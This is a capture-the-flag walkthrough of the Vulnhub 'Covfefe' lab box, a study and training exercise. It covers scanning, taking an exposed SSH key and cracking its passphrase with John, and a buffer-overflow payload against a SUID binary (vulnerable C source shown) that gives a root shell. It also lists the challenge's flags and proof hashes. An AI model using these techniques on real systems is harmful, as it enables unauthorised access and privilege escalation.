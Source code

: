 ```yaml
---
title: Covfefe
category: Vulnhub
---
```


## Enumeration

- Started enumerating by running NMAP by using default parameters

```plaintext
└─$ nmap -sC -sV -oA quick 192.168.119.128
Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-05 17:40 -03
Nmap scan report for 192.168.112.10
Host is up (0.16s latency).
Not shown: 997 closed ports
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.4p1 Debian 10 (protocol 2.0)
| ssh-hostkey: 
|   2048 d0:6a:10:e0:fb:63:22:be:09:96:0b:71:6a:60:ad:1a (RSA)
|   256 ac:2c:11:1e:e2:d6:26:ea:58:c4:3e:2d:3e:1e:dd:96 (ECDSA)
|_  256 13:b3:db:c5:af:62:c2:b1:60:7d:2f:48:ef:c3:13:fc (ED25519)
80/tcp    open  http    nginx 1.10.3
|_http-server-header: nginx/1.10.3
|_http-title: Welcome to nginx!
31337/tcp open  http    Werkzeug httpd 0.11.15 (Python 3.5.3)
| http-robots.txt: 3 disallowed entries 
|_/.bashrc /.profile /taxes
|_http-server-header: Werkzeug/0.11.15 Python/3.5.3
|_http-title: 404 Not Found
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 43.12 seconds
```

### 80/TCP

- Checking this Nginx page, noticed that seems to be the default website. Nothing to do here :)

### 31337/TCP

- When accessing this app on 31337 port, also after noticing that this webserver is very uncommon ( Werkzeug httpd) got a "Not Found" page but when I have started the enumeration I have found the following data on robots.txt

```plaintext
User-agent: *
Disallow: /.bashrc
Disallow: /.profile
Disallow: /taxes
```

- Browsing to the **/taxes** page, got a message saying that my flag is somewhere else...

- The entries **.bashrc** and **.profile** shows that this page might be published from an user's home profile. It's very likely that this user has id_rsa keys. Browsing to this directory they were found and downloaded to our box.

- Checking the **id_rsa.pub** file, noticed that the user for this credential can be **simon@covfefe** and after comparing both this file and **authorized_keys**, noticed that they're identical. The only problem with this RSA key is that is encrypted, identified after looking for the attribute **ENCRYPTED** on its contents, requiring us to look for a passphrase in order to be able to use it.

```plaintext
└─$ cat id_rsa.pub             
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDzG6cWl499ZGW0PV+tRaOLguT8+lso8zbSLCzgiBYkX/xnoZx0fneSfi93gdh4ynVjs2sgZ2HaRWA05EGR7e3IetSP53NTxk5QrLHEGZQFLId3QMMi74ebGBpPkKg/QzwRxCrKgqL1b2+EYz68Y9InRAZoq8wYTLdoUVa2wOiJv0PfrlQ4e9nh29J7yPgXmVAsy5ZvmpBp5FL76y1lUblGUuftCfddh2IahevizLlVipuSQGFqRZOdA5xnxbsNO4QbFUhjIlA5RrAs814LuA9t2CiAzHXxjsVW8/R/eD8K22TO7XEQscQjaSl/R4Cr1kNtUwCljpmpjt/Q4DJmExOR simon@covfefe
└─$ diff -s id_rsa.pub authorized_keys                                                               
Files id_rsa.pub and authorized_keys are identical
└─$ cat id_rsa | grep ENCRYPTED
Proc-Type: 4,ENCRYPTED
```

- Before start digging for this passphrase, let's first try to crack it using John. To do it we need first use **ssh2john** to create a hash file from the encrypted content and then brute forced it using a dictionary, in this case **rockyou.txt** which was a very good idea once it has returned the passphrase we're needing to logon to the box, which is **starwars**.

```plaintext
└─$ /usr/share/john/ssh2john.py id_rsa > id_rsa.hash 
└─$ /usr/sbin/john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa.hash
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 4 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
starwars         (/dcruz/vulnhub/covfefe/loot/id_rsa)
Warning: Only 2 candidates left, minimum 4 needed for performance.
1g 0:00:00:10 DONE (2020-09-05 17:58) 0.09980g/s 1431Kp/s 1431Kc/s 1431KC/sa6_123..*7¡Vamos!
Session completed

└─$ /usr/sbin/john --show id_rsa.hash 
/dcruz/vulnhub/covfefe/loot/id_rsa:starwars

1 password hash cracked, 0 left
```

- After connecting to the box using the obtained credentials was able to get the **local.txt** flag on user's home directory:

```plaintext
simon@covfefe:~$ cat local.txt
d695ee2066190bdab0cf22758d1eeb39
```

## Privilege Escalation

- Checking other interesting things on user's home directory there was also a **.bash_history** file, which is not forwarded to /dev/null and has an interesting entry for an executable called **read_message**. This binary has the SUID bit set and could probably allow us to escalate privilege.

```plaintext
simon@covfefe:~$ cat .bash_history 
read_message
exit
date | md5sum | awk '{print $q}'
date | md5sum > local.txt
cat local.txt 
nano local.txt 
ls -la
cat .bash_history 
exit
simon@covfefe:~$ whereis read_message
read_message: /usr/local/bin/read_message
simon@covfefe:~$ ls -la /usr/local/bin/read_message 
-rwsr-xr-x 1 root staff 7608 Jul  2  2017 /usr/local/bin/read_message
```
  
- Running read_message by the first time, it asks for our name and prints it as stdout saying that we're not allowed to see the message, but when I have tried with Simon, that is the user we have access to, the proper message is displayed
  
```plaintext
simon@covfefe:~$ read_message
What is your name?
test
Sorry test, you're not Simon! The Internet Police have been informed of this violation.
simon@covfefe:~$ read_message 
What is your name?
Simon
Hello Simon! Here is your message:

Hi Simon, I hope you like our private messaging system.

I'm really happy with how it worked out!

If you're interested in how it works, I've left a copy of the source code in my home directory.

- Charlie Root
```

- Now let's take a look at the source code of this binary to see if is there something interesting. As this is Charlie Root, we've been able to see **read_message.c** file under /root path. Below are it's contents:

```c
// cat read_message.c 
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

// You're getting close! Here's another flag:
// flag2{use_the_source_luke}

int main(int argc, char *argv[]) {
  char program[] = "/usr/local/sbin/message";
    char buf[20];
    char authorized[] = "Simon";

    printf("What is your name?\n");
    gets(buf);
    
    // Only compare first five chars to save precious cycles:
    if (!strncmp(authorized, buf, 5)) {
        printf("Hello %s! Here is your message:\n\n", buf);
        // This is safe as the user can't mess with the binary location:
        execve(program, NULL, NULL);
    } else {
        printf("Sorry %s, you're not %s! The Internet Police have been informed of this violation.\n", buf, authorized);
        exit(EXIT_FAILURE);
    }

}
```

- In the source code we're able to see that the app is hardcoded to only allow Simon to use it but also that the input for the username has only 20 chars long. This might lead to a buffer overflow, once we might  change the previous declared variable, in this case **program** which is below in the stack pile. Also the remote code execution will this happen because the program calls the program using execve() function, otherwise we wouldn't be able to use this binary for privesc.

- After some attempts, I've found that the string **SimonAAAAAAAAAAAAAAA/bin/sh** is enough to cause the Buffer Overflow and also return an elevated prompt.

  - It has to start with **Simon**, otherwise we won't get to code execution phase
  - It has to end with **/bin/sh** in order to get an interactive prompt. If you try the same using **/bin/bash** you won't succeed once bash contains protections against privilege escalation.
  - In between I have started adding the character **A** until I was able to get arbitrary code execution

```plaintext
  simon@covfefe:~$ read_message
  What is your name?
  SimonAAAAAAAAAAAAAAA/bin/sh
  Hello SimonAAAAAAAAAAAAAAA/bin/sh! Here is your message:

  # cd /root
  # cat flag.txt
  Your flag is in another file...
  # dir
flag.txt  proof.txt  read_message.c
  # cat proof.txt
  386f50fde90ccb48cddaa052cb7d47ed
```

## Appendix

- When this box was first released, the flags were different and also there is other flags in the initial one, as you might have noticed when we were reading the source code for read_message.
- Below all the flags for the initial version on VulnHub:
  - After finding the  robots.txt, there's an entry on **/taxes** page. This would leak the first flag below instead of the displayed message:

```plaintext
Good job! Here is a flag: flag1{make_america_great_again}
```

- The second flag, present on read_message.c source code:

```plaintext
flag2{use_the_source_luke}
```

- Original root flag:

```plaintext
flag3{das_bof_meister}
```
